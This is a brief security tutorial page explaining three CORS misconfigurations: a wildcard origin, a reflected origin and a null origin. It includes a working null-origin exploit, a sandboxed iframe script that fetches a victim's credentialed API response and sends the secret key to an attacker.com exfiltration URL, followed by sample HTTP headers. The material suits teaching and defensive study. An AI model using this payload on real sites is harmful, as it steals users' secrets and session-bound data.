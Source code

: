 ```yaml
---
title: CORS Misconfiguration 
description: Introduction to CORS Misconfiguration vulnerabilites.
---
```


# CORS Misconfiguration

1. `Access-Control-Allow-Origin: *` : Allow everyone to fetch this ressource, it can be dangerous if the ressource is not intended to be public.
2. The `Access-Control-Allow-Origin` response header reflect the `Origin` request header : Same as `1.`, there are no protections.
3. `Access-Control-Allow-Origin` is `null` if the `Origin` is `null` : It can be exploited using sandboxed elements that set the `Origin` header to `null` by default.

Example of exploit :

```html
<iframe sandbox="allow-scripts" src="data:text/html,
<script>
fetch('https://api.cors-null-vulnerable.com/sensitiveContent', {
    credentials: 'include'
})
.then(response => response.json())
.then(j => document.location=`https://attacker.com/exfiltration?key=${j['secret_key']}`);
</script>
"></iframe> 
```

HTTP Request headers :

```
GET /sensitiveContent HTTP/1.1
Host: api.cors-null-vulnerable.com
Cookie: session=agurne3nriezwaejpanrghq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: null
[...]
```

HTTP response :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "secret_key": "12345",
}
```